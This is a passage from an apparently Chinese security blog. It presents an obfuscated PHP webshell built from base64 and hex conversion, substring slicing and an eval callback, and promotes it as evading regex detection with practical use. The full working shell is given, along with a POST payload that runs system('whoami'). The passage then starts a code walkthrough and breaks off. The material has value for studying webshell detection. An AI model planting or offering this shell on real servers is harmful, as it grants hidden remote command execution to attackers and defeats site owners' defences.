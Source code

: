 ![ll0sxg0e.png](https://blog.zgsec.cn/usr/uploads/2023/08/3308306080.png)

![ll0sx462.png](https://blog.zgsec.cn/usr/uploads/2023/08/3184468024.png)

这个样例使用了字符串截取+编解码转换+参数回调的手法，成功规避了正则匹配式，具有实战意义

```php
<?php
phpinfo();
class Car{
	function encode(){
		$num1=base64_encode($_POST['num']);
		$num=base64_decode($num1);
		echo "1";
		foreach($_POST as $k => $v){
			$_POST[$k] = pack("H*",(substr($v,$num,-$num)));
		}
		@$post=base64_encode($_POST['Qxi*37yz']);
		@$post1=base64_decode(@$post);
		return $post1;
	}
	function Xt(){
		return eval($this->encode());
	}
}
$t=new Car;
$t->Xt();
?>
```
这时候，就可以执行POST传参：`num=2&Qxi*37yz=6173797374656d282777686f616d6927293b62` 来执行whoami命令

这个PHP内定义了两个函数，分别是 `encode()` 和 `Xt()`，我们先看 `encode()`：

```php
function encode(){
	$num1=base64_encode($_POST['num']);
	$num=base64_decode($num1);
	echo "1";
	foreach($_POST as $k => $v){
		$_POST[$k] = pack("H*",(substr($v,$num,-$num)));
	}
	@$post=base64_encode($_POST['Qxi*37yz']);
	@$post1=base64_decode(@$post);
	return $post1;
}
```
传入了两个参数，参数名分别为 `num` 和 `Qxi*37yz`，这个函数的输出为 `$post1`，关键就在于以下这一行代码：

```php
foreach($_POST as $k => $v){
	$_POST[$k] = pack("H*",(substr($v,$num,-$num)));
}
```
然后我们根据上文提到的知识点0.8、1.5和2.1以及2.4，可以了解到这一行代码的意思：

